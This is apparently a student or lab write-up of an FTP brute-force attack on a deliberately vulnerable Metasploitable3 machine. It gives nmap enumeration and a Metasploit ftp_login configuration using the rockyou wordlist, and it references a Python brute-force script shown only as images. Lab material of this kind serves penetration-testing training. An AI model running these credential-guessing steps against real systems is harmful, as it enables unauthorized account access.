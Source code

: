 **FTP Brute-Force Attack on Metasploitable3**

**Objective:** Compromise the FTP service on a Metasploitable3 victim machine using brute‑force techniques.

---

## 1. Environment Setup

### 1.1 Machines and IP Addresses

* **Attacker (Kali Linux)**

  * IP Address: `10.0.2.15`
    ![Figure 1: Attacker Network Configuration](image/Picture1.png)

* **Victim (Metasploitable3)**

  * IP Address: `10.0.2.7`
    ![Figure 2: Victim Machine Overview](image/Picture2.png)

---

## 2. Vulnerability Enumeration

### 2.1 Service Discovery with Nmap

To identify open services on the victim, we ran:

```bash
nmap -sV 10.0.2.7
```

* Key findings: FTP (port 21/tcp), SSH (22/tcp), HTTP (80/tcp), etc.

![Figure 3: Nmap Scan Results](image/Picture3.png)

### 2.2 Selecting the Target Service

The FTP service was chosen because it allows multiple login attempts, making it susceptible to brute‑force attacks.

---

## 3. Attack Execution

### 3.1 Exploitation via Metasploit Console

1. Launch Metasploit:

   ```bash
   msfconsole
   ```
2. Select the FTP login auxiliary module:

   ```bash
   use auxiliary/scanner/ftp/ftp_login
   ```
3. Configure module options:

   ```bash
   set RHOSTS 10.0.2.7
   set USER_FILE /usr/share/wordlists/rockyou.txt
   set PASS_FILE /usr/share/wordlists/rockyou.txt
   set STOP_ON_SUCCESS true
   ```
4. Execute the attack:

   ```bash
   run
   ```

![Figure 4: Metasploit FTP Brute-Force Configuration](image/Picture4.png)

### 3.2 Custom Brute-Force Script

A Python script using `ftplib` was also used to automate login attempts:
![Figure 3: Nmap Scan Results](image/Picture5.png)

![script execution](image/b175ee04-b93f-44c5-804e-a121170c0c67.jpg)
